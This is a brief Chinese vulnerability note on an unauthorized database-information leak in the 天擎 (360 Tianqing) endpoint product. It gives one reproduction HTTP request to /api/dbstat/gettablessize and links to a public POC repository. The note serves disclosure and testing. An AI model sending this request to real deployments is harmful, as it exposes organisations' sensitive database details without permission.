 # 天擎-数据库信息泄露漏洞

## 漏洞描述

天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

> [!NOTE]
>
> 天擎

## 漏洞复现

```
GET /api/dbstat/gettablessize HTTP/1.1
```

![](天擎-数据库信息泄露漏洞.assets/1627363116365225.jpg)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360_Tianqing_database_information_disclosure

![](天擎-数据库信息泄露漏洞.assets/1627363116722964.jpg)